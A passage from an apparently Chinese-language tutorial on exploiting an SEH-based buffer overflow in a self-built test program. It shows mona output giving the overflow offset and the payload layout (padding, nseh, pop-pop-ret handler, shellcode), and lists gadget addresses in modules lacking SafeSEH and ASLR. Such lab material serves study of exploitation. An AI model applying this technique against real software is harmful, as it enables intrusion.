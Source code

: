 ```
    ECX (0x0012fc74) points at offset 144 in normal pattern (length 156)
[+] Examining SEH chain    SEH record (nseh field) at 0x0012ffb0 overwritten with normal pattern : 0x63413163 (offset 60), followed by 76 bytes of cyclic data
[+] Examining stack (entire stack) - looking for cyclic pattern
    Walking stack from 0x0012e000 to 0x0012fffc (0x00001ffc bytes)
    0x0012fbe4 : Contains normal cyclic pattern at ESP+0x60 (+96) : offset 0, length 300 (-> 0x0012fd0f : ESP+0x18c)
    0x0012fe44 : Contains normal cyclic pattern at ESP+0x2c0 (+704) : offset 0, length 300 (-> 0x0012ff6f : ESP+0x3ec)
    0x0012ff74 : Contains normal cyclic pattern at ESP+0x3f0 (+1008) : offset 0, length 140 (-> 0x0012ffff : ESP+0x47c)

```

计算出溢出长度为60字节,并列出所有加载的dll,并提示是否有safeSEH和aslr等.

根据前面的知识,构造的shellcode格式应为:buf +nseh +seh handle +shellcode

nseh 为90909090,seh handle为pop pop ret地址,buf为60长度的任意字节,ppt的地址也可以用mona来搜索,`!mona seh`

```
0x0040ba77 : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040bb1b : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x00401616 : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040176e : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040ec4f : pop ebx # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x004018ef : pop esi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf67 : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf6d : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cedb : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee2 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee9 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)

```
